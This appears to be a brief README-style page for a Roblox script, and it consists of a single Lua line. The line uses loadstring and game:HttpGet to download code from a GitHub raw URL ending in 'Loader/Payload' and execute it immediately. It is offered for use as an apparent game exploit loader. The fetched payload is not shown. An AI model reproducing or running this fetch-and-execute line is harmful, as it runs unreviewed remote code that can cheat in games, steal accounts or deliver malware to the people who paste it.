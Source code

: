 # Script
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/NotH4xor/Bahasf/refs/heads/main/Loader/Payload"))()
```
